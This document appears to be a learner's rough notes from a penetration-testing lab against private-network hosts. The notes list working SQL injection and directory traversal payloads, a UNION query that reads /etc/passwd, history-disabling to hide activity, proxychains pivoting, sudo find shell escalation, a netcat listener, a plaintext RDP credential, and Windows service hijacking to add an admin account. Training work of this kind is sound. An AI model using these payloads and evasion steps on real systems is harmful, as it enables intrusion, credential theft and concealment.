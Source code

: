 # Begin intial nmap scans
nmap -Pn ##############
#################
Look at web pages
Look at Source code
open up all pages
naviagte to file locations found in the scripts
Home button/PDFs

FIle to read, you see that
myfile=../../../../../../../
- cat the file you can read an explore what you can cat to et information
- going to the unserame and login 
- username:Ford' or 1='1 password:Ford' or 1='1
- "inspect the source" then change the method from POST to GET
- once get crednetials, open bash shell unset HISTFILE
  - check hosts file cat /etc/hosts
  - ping -c1 BestWebApp
  - ## NEW TARGET Found
- Now go right to 192.168.28.181 website, boom
- now proxychains nmap -Pn 192.168.28.181 - see ports 22/80
- rerun your proxychains nmap scripts on this machines
- BOOM WEBPAGE, INSPECT SOURCE code
- submit and look at tall of the php in the searhc banner
- product=7 or 1=1
- LOOK INTO EACH SELECTION FIELD
  - siteuser
# AARON has not been found that
username, name,user_id from siteusers.users
http://192.168.28.181/pick.php?product=7 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns;
@@version,database(),load_file("/etc/passwd")
## Credentials from 2ne box acquired, now move on
go back to box, use your for loop to find more addresses
create a tunnel now
echo $0
echo $shell
/hom /tmp /etc /cron*uname -A
now ellevater 
1. sudo -l 
   1. gtfo bins - type in fin (
   2. sudo find . -exec /bin/sh \; -quitshell sui sudo)

ls | grep cron
cat crontab
look at non-standard crontabs
change direction to directory of the scripts being ran in the Older
- dig through the libraries
- netstat -natup, see if its listening
- ps -elf and look through the process list, 
  - cron service is running the service
  - get the hostname so you known
After you rerun the python script on the same network to see the new addresses
## NEW ips
now run your nmap scans
nmap -sV -Pn 192.168.28.179 --script banner -p 22,3389
server 9999 is your vuln server
- grab your callback to the call server and point it to the ip address of the vuln server
- nc listneer on oips nc -lvnp 4444
- then from ops proxychains
- # last box
- close tunnels so you can RDP 
- xfreerdp /v:localhost:2222 /u:Lroth /p:anotherpassword4THEages /size:1920x1080 +clipboard
- ## Go to windows box
- change directory to hidden and show exntensions on windows
  - user home, system32
  - persistance keys
  - check all the keys
- ## time to elevate on windows
- look at services and scheduled tasks
- task scheduler
- Sort your servuces
  - sort by descpoolription
  - clip and open up the properrties
  - go to the directory, look good, now looking at permisions.
    - creat file, try and rename program, unable to execute from inside
    - move to each program or executbale until you find one that you can exploit
    - go to the service and in services see what the servuice is running as,
      - or putty its running ansd able to be exploited
      - drill down into the directory, yes you can put thigns int there
      - take the file and compile it, throw it into folde to create a user account with admin priviledges